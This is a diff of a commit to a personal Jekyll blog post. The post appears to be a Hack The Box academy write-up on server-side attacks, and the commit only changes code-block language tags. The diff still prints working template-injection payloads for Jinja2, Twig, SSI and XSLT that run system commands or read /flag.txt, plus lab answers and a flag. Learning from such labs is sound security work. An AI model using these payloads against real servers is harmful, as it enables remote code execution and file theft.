

Before and after one commit to davewinton/davewinton.github.io, a Jekyll site: the page built from _posts/2025-01-01-m145-serversideattacks.md, in a window 1280 px wide and 1400 px high, scrolled down 5126 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Updated posts

````diff
--- a/_posts/2025-01-01-m145-serversideattacks.md
+++ b/_posts/2025-01-01-m145-serversideattacks.md
@@ -124,7 +124,7 @@ No questions
 
 1. Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.
 
-```
+```shell
 http://SERVER-IP:PORT/index.php?name={{7*'7'}}
 ```
 
@@ -138,7 +138,7 @@ Answer: `twig`
 
 The payload is
 
-```jinja2
+```shell
 {{ self.__init__.__globals__.__builtins__.open("/flag.txt").read() }}
 ```
 
@@ -150,7 +150,7 @@ Answer: `HTB{295649e25b4d852185ba34907ec80643}`
 
 The RCE payload is:
 
-```twig
+```shell
 {{ ['cat /flag.txt'] | filter('system') }}
 ```
 
@@ -167,7 +167,7 @@ No questions
 
 The RCE payload is:
 
-```ssi
+```shell
 <!--#exec cmd="cat /flag.txt" -->
 ```
 
@@ -185,7 +185,7 @@ No questions
 
 The RCE payload is:
 
-```xslt
+```shell
 <xsl:value-of select="php:function('system','cat flag.txt')" />
 ```
 
````
Also changed, not shown: _posts/2025-01-01-hackthebox.md (+1 -0 lines).
